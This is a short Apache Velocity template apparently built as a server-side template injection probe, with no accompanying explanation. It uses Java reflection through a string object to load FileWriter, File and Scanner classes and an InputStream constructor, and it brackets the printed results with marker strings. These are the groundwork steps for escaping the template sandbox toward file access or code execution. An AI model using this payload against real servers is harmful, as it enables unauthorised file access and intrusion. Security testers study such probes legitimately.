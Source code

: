#set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
$a
#set ($ab=$e.getClass().forName("java.io.File"))
$ab
#set($sc = $e.getClass().forName("java.util.Scanner"))
$sc
#set($str=$class.inspect("java.lang.String").type)
$str
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
$constructor
#set ( $xx=$e.getClass().forName("java.io.FileWriter").getMethod("FileWriter",null) )
$xx

$monkey





